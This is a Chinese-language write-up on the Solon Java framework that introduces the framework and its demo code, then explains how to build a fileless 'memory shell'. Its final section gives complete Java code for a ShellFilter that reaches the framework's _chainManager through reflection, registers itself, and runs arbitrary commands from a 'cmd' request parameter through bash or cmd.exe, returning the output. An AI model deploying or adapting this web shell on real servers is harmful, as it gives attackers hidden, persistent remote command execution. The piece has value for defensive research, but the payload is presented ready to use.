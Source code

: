 ## Solon 介绍

[Solon（OpenSolon） | 官网 （Spring 替代方案） (noear.org)](https://solon.noear.org/)

[GitHub - opensolon/solon: 🔥 A Scene-oriented Java Application Development Framework: Restrained, Efficient, Open, Ecological!!! 300% higher concurrency 50% memory savings Startup is 10 times faster. Packing 90% smaller; Compatible with java8 ~ java23. (Replaceable spring)](https://github.com/opensolon/solon)
面向全场景的 Java “生态型”应用开发框架。从零开始构建，有自主的标准规范与开放生态。目前已近15万行代码。
### 技术介绍：

内核零依赖；组合不同的插件应对不同需求；方便定制；快速开发。

- Http、WebSocket、Socket 三种信号统一的开发体验（俗称：三源合一）
- 支持“注解”与“手动”两种模式并重，按需自由操控
- Not Servlet，可以适配任何 Http 通讯框架（所以：最小 0.3m 运行rpc架构）
- 独特的 IOC/AOP 容器设计。不会因为依赖变多而启动很慢
- 适合 Web、Scheduling、FaaS、Remoting、Cloud 等任何开发场景
- 强调插件式扩展，可扩展可切换；适应不同的应用场景
- 支持 GraalVm Native Image 打包
- 允许业务插件“热插”、“热拔”、“热管理”

## 测试环境搭建
官网提供的简单demo
```JAVA
package com.example.demo;  
  
import org.noear.solon.annotation.Controller;  
import org.noear.solon.annotation.Mapping;  
import org.noear.solon.annotation.Param;  
import org.noear.solon.core.handle.ModelAndView;  
  
@Controller  
public class DemoController {  
    @Mapping("/hello")  
    public String hello(@Param(defaultValue = "world") String name) {  
        return String.format("Hello %s!", name);  
    }  
      
    @Mapping("/hello2")  
    public ModelAndView hello2(@Param(defaultValue = "world") String name) {  
        return new ModelAndView("hello2.ftl").put("name", name);  
    }  
}
```

TestFilter

```JAVA
package com.example.demo;  
  
import org.noear.solon.annotation.Component;  
import org.noear.solon.core.handle.Context;  
import org.noear.solon.core.handle.Filter;  
import org.noear.solon.core.handle.FilterChain;  
  
@Component  
public class TestFilter implements Filter {  
    @Override  
    public void doFilter(Context ctx, FilterChain chain) throws Throwable {  
        System.out.println("[doing] TestFilter::doFilter");  
        chain.doFilter(ctx);  
    }  
}
```

## 利用原理
通过在路由hello处下断点，最早对doFilter的调用

![](attachments/Pasted%20image%2020241205214416.png)

简单阅读代码可以看到在ChainManager，有方法addFilter

![](attachments/Pasted%20image%2020241205214846.png)


过滤器添加断点获取到了org/noear/solon/core/route/RouterWrapper.java处进行了ChainManger的初始化，以及对addFilter的调用。

![](attachments/Pasted%20image%2020241205220627.png)

因此编写solon的内存马主要就是找到内存变量_chainManger，并调用它的doFilter加载恶意Filter

## 内存马编写

```JAVA
package com.example.demo;  
import org.noear.solon.annotation.Component;  
import org.noear.solon.core.ChainManager;  
import org.noear.solon.core.handle.Context;  
import org.noear.solon.core.handle.Filter;  
import org.noear.solon.core.handle.FilterChain;  
import java.lang.reflect.Field;  
@Component  
public class ShellFilter implements Filter {  
    static {  
        try {  
            Context ctx = Context.current();  
            Object obj = ctx.request();  
            Field field = obj.getClass().getSuperclass().getDeclaredField("request");  
            field.setAccessible(true);  
            obj = field.get(obj);  
            field = obj.getClass().getDeclaredField("serverHandler");  
            field.setAccessible(true);  
            obj = field.get(obj);  
            field = obj.getClass().getDeclaredField("handler");  
            field.setAccessible(true);  
            obj = field.get(obj);  
            field = obj.getClass().getDeclaredField("arg$1");  
            field.setAccessible(true);  
            obj = field.get(obj);  
            field = obj.getClass().getSuperclass().getDeclaredField("_chainManager");  
            field.setAccessible(true);  
            obj = field.get(obj);  
            ChainManager chainManager = (ChainManager) obj;  
            chainManager.addFilter(new ShellFilter(), 0);  
        }catch (Exception e){  
            e.printStackTrace();  
        }  
    }  
    @Override  
    public void doFilter(Context ctx, FilterChain chain) throws Throwable {  
        try{  
            if(ctx.param("cmd")!=null){  
                String str = ctx.param("cmd");  
                try{  
                    String[] cmds =  
                            System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe",  
                                    "/c", str} : new String[]{"/bin/bash", "-c", str};  
                    String output = (new java.util.Scanner((new  
                            ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next();  
                    ctx.output(output);  
                }catch (Exception e) {  
                    e.printStackTrace();  
                }  
            }  
        }catch (Throwable e){  
            System.out.println("异常："+e.getMessage()) ;  
        }  
        chain.doFilter(ctx);  
    }  
}
```